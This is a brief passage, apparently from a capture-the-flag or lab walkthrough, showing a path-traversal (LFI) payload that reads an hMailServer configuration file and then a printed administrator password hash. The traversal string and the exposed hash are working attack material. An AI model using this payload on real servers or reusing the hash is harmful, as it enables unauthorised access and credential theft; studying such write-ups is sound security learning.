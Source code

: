 
> Check the hmailserver config by LFI (hmailServer.ini)

```
../../../../../../../../Program+Files+(x86)/hMailServer/bin/hmailserver.ini
```


![](./IMG/22.png)

> Find administrator password

```
841bb5acfa6779ae432fd7a4e6600ba7
```

